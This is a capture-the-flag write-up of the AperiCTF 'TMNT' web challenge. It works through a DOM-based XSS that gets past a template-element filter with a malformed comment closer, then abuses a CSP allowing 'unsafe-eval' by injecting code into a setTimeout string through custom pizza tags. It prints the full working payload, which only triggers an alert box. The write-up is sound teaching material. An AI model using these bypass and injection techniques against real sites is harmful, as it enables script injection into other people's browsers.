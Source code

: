 ```yaml
---
title: "TMNT"
date: 2019-10-09T16:39:53+02:00
categories:
- write-ups
- aperi-ctf
tags:
- web
- xss
keywords:
- web
- xss
coverImage: /images/TMNT/bg.jpg
coverSize: full
coverMeta: in
metaAlignment: center
autoThumbnailImage: false
summary : "Write-up about the TMNT challenge from the AperiCtf"
---
```


|  Event | Challenge | Category | Points | Solves |
|:----------:|:------------:|:------------:|:------------:|:------------:|
| AperiCtf |  TMNT  |  web  |  300 |  6  |

{{< image classes=" center fancybox clear fig-100" src="/images/TMNT/desc.png" thumbnail="/images/TMNT/desc.png" thumbnail-width="50%" thumbnail-height="50%" >}}


# TL;DR

In this challenge we need to trigger an XSS, first we need to bypass the template engine of the browser to insert custom tags in the page. We can then trigger the XSS with some specific tag and use a DOM-based JavaScript injection vulnerability.

# Step 1

This is my first web write-up, I usually prefer popping shell, but this time we will pop some alert boxes ! We are faced with a search bar which display information about some ninja turtles.

{{< image classes=" center clear fig-100" src="/images/TMNT/intro.png"   >}}

In the source code of the page we can see the script {{< hl-text orange >}}main.js{{< /hl-text >}}. 

{{< codeblock lang="javascript"  >}}

//s parameter is the input of the search box
s = new URL(window.location.href).searchParams.get('s');

if (s !== null) {
    desc = '';

    for(var i=0; i<tmnt.length; i++) {
        if(s.includes(tmnt[i]['name'])) {
            desc = tmnt[i].desc;
            name = tmnt[i].name;
            break;
        }
    }
    if (desc !== '') {
        tmp = document.createElement('template'); // Used to filter HTML / JS
        tmp.innerHTML = s.replace(/-->/g, ''); // Double security, we never know
        document.getElementById('data').innerHTML = '<!-- Search : ' + tmp.innerHTML + ' -->' + name + ' : ' + desc;
    } else {
        //Else fail display no result
        [...]
    }
} else {
    //Else fail display no result
    [...]
}
{{< /codeblock >}}

```tmnt``` is an array containing the name and descriptions of the turtles. So first a template is created, then it search for ```-->``` in the input of the user to delete it and finally create some html to add to the page. Indeed, it's reflected on the page:

{{< image classes=" center clear fig-100" src="/images/TMNT/reflected.png"   >}}

My naïve approach was to add ```--!>``` to the beginning of the input since it's a valid closing comment tag and add ```<--``` to the end of my input to close the last part of the comment:

{{< codeblock lang="html">}}
--!> Michelangelo <!--
{{< /codeblock >}}

{{< image classes=" center clear fig-100" src="/images/TMNT/inject.png"   >}}

Some weird things start to happen ! First my closing chevron ```>``` has been encoded in ```&gt;``` but the other chevrons hasn't. Because of that, my opening comment ```<!--``` is useless. And a new closing comment appears out of nowhere. 

In the script a comment is left from the author of the challenge:

{{< codeblock lang="javascript">}}
tmp = document.createElement('template'); // Used to filter HTML / JS
{{< /codeblock >}}

Here is the description of the template tag from mozilla: 

{{< pullquote >}}
[...]
Think of a template as a content fragment that is being stored for subsequent use in the document. While the parser does process the contents of the template element while loading the page, it does so only to ensure that those contents are valid; the element's contents are not rendered, however.
{{< /pullquote >}}

So the template element checks that those contents are valid html. This is the first step, we need to make the template engine fail this verification. After a lot of trying and error I came up with this payload:

{{< codeblock lang="html">}}
<a--!> Michelangelo <!--
{{< /codeblock >}}

It seems really simple but took me some time to figure it out. Here is the result:

{{< image classes=" center clear fig-100" src="/images/TMNT/inject2.png"  >}}

Due to the Content Security Policy ([CSP](https://content-security-policy.com/)) we can't directly inject ```<script>alert('XSS')</script>``` because it will block inline javascript, this also means that we can't use events like onload, onerror, onclick... CSP can be found in the source of the page:


{{< codeblock lang="html">}}
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; script-src 'self' 'unsafe-eval';">
{{< /codeblock >}}

This [website](https://csp-evaluator.withgoogle.com/) allow you to test your CSP:

{{< image classes=" center clear fig-100" src="/images/TMNT/csp.png" thumbnail="/images/TMNT/csp.png"  >}}

The yellow warning tells us that {{< hl-text orange >}}unsafe-eval{{< /hl-text >}} could allow execution of code injected into the DOM API, seems promising. 


# Step 2

A second javascript file is loaded in the page, {{< hl-text orange >}}pizza.js{{< /hl-text >}}.

{{< codeblock "pizza.js" "javascript">}}
var user = {'name': 'Michelangelo', 'pizza_stock': 0, 'eated_pizza' : 0};

function wait(ms){
   var start = new Date().getTime();
   var end = start;
   while(end < start + ms) {
     end = new Date().getTime();
  }
}

window.onload = function(e){ 

	p = document.querySelectorAll("pizza");

	for(var i = 0; i < p.length; i++) {
		if (p[i].getAttribute('cook') !== null) {
			if (p[i].getAttribute('nb') !== null) {
				user.pizza_stock += parseInt(p[i].getAttribute('nb'), 10);	
			} else {
				user.pizza_stock += 1;
			}
		} else if (p[i].getAttribute('user') !== null) {
			user.name = p[i].getAttribute('user');
		} else if (p[i].getAttribute('eat') !== null && p[i].getAttribute('nb') !== null) {
			if (parseInt(p[i].getAttribute('nb'), 10) <= user.pizza_stock) {
				user.eated_pizza += parseInt(p[i].getAttribute('nb'), 10);
				user.pizza_stock -= parseInt(p[i].getAttribute('nb'), 10);
			} else {
				console.log("Not enough pizza :'(");
			}
			if (user.eated_pizza === 1337) {
				console.log(user.name + " can't eat as much as he wants, he needs to take a break...");
				setTimeout('user.eated_pizza = 0; console.log("' + user.name + ' digested everything!")', 3000);
			}
		}
	}
}
{{< /codeblock >}}

At the end of the file there is an interesting line:

{{< codeblock lang="javascript">}}
setTimeout('user.eated_pizza = 0; console.log("' + user.name + ' digested everything!")', 3000);
{{< /codeblock >}}

If we control the parameter ```user.name``` we could potentially execute some javascript code, for example:

{{< codeblock lang="javascript">}}
");alert("XSS");console.log("
{{< /codeblock >}}

But to get there we need to set up some pizzas tags with custom parameters to pass into the last ```if```:


{{< codeblock lang="html">}}
<pizza cook=1337 nb=1337></pizza>
<pizza user='");alert("xss");console.log("'></pizza>
<pizza eat=1337 nb=1337></pizza>
{{< /codeblock >}}

So the final payload is:

{{< codeblock lang="html">}}
<a---!>Michelangelo <pizza nb=1337 cook=1337></pizza><pizza user='");alert("xss");console.log("'></pizza><pizza eat=1337 nb=1337></pizza><!--
{{< /codeblock >}}

And boom the XSS:

{{< image classes=" center clear fig-100" src="/images/TMNT/final.gif" >}}


